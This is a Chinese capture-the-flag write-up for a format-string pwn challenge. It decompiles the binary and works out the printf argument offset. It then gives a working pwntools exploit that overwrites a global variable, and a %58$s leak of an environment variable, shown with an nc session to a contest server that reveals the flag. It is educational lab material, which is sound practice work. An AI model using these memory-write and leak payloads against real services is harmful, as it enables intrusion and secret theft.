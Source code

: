 # 【中等】魔法禁书目录

> hint：什么格式化字符串可以[覆盖内存](https://ctf-wiki.org/pwn/linux/user-mode/fmtstr/fmtstr-exploit/#_8)？如果你觉得手动构造太复杂，pwntools 或许可以助你一臂之力。

> 非预期？！：出题人打开程序一看，这个是什么？一顿操作后，他发现一个似乎是非预期。什么？非预期？但是这个也是格式化字符串，怎么可以叫非预期呢？（嘴硬）如果你想知道是什么，不妨看看这个：[泄露内存](https://ctf-wiki.org/pwn/linux/user-mode/fmtstr/fmtstr-exploit/#_3)。

# 题目分析

一样，放入 IDA 分析一下:
``` c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char *v4; // [rsp+8h] [rbp-68h]
  char buf[88]; // [rsp+10h] [rbp-60h] BYREF
  unsigned __int64 v6; // [rsp+68h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stderr, 0LL, 2, 0LL);
  ancient_power = rand();
  printf("tell me your name: ");
  read(0, buf, 0x50uLL);
  printf("your name is ");
  printf(buf);
  if ( ancient_power == 1131796 )
  {
    v4 = getenv("FLAG");
    printf("\nThe mystical power has been revealed: %s\n", v4);
  }
  else
  {
    puts("\nThe mystical power remains hidden...");
  }
  return 0;
}
```

很简单，如果 ancient_power 这个全局遍历器变量的值为 **1131796 (0x114514)** 就会打印 FLAG，否则就打印 The mystical power remains hidden...

用 IDA 也可以得到 ancient_power 的地址（没有开PIE）:
``` C
.bss:000000000040404C                 public ancient_power
.bss:000000000040404C ancient_power   dd ?                    ; DATA XREF: main+7A↑w
.bss:000000000040404C                                         ; main+CF↑r
.bss:000000000040404C _bss            ends
```

对于格式化字符串的偏移嘛，有一个很好用的工具：[Pwngdb](https://github.com/scwuaptx/Pwngdb.git) 可以用他的 `fmtarg` 进行偏移的计算。

把程序运行到 printf 处（未执行），然后求 rdi 所在的偏移：
``` C
00:0000│ rsp 0x7fffffffd6d0 ◂— 0
01:0008│-068 0x7fffffffd6d8 ◂— 0
02:0010│ rsi 0x7fffffffd6e0 ◂— 0xa7025 /* '%p\n' */
03:0018│-058 0x7fffffffd6e8 ◂— 0
```
``` C
pwndbg> fmtarg 0x7fffffffd6e0
The index of format argument : 8 (\"\%7$p\")
```

上面的 8 就是我们需要的偏移。

# exp

1. 方法一：覆盖内存：

小 tip : fmtstr_payload使用要指定架构，arch='amd64'。
``` python
from pwn import *

context(arch='amd64', os='linux', log_level='debug')
context.terminal = ['tmux', 'splitw', '-h']

# p = remote('202.199.6.66', 35977)
p = process('./ancient_book')

# 方法一：格式化字符串进行内存覆盖
ancient_power_addr = 0x40404C
payload = fmtstr_payload(8, {ancient_power_addr: 0x114514})
p.sendline(payload)
```

2. 方法二：泄露内存

由于程序把 flag 放入了环境变量中，我们可以通过用 fmt 泄露环境变量。

``` python
# 直接用 %s 泄露
# 这个是因为 flag 在环境变量中，所以直接用 %s 泄露
# 调试发现 %57$s 开始泄露环境变量，用 %58$s 就可以泄露 flag
# 33:0198│ r13 0x7fffffffd918 —▸ 0x7fffffffdc0c ◂— 'SHELL=/bin/bash'
# pwndbg> fmtarg 0x7fffffffd918
# The index of format argument : 57 (\"\%56$p\")
```

接下来 nc 连接，再输入 `%58$s` 即可获得 flag。 
``` Bash
┌──(kali㉿LAPTOP-9O25NAN3)-[~/Desktop/nex_practice/fmt]
└─$ nc 202.199.6.66 39427
tell me your name: %58$s
your name is FLAG=nex{I0rM475TRiN9S_rEvEA1_aNclenT_pOW3R5-n2p59hn7}

The mystical power remains hidden...
```
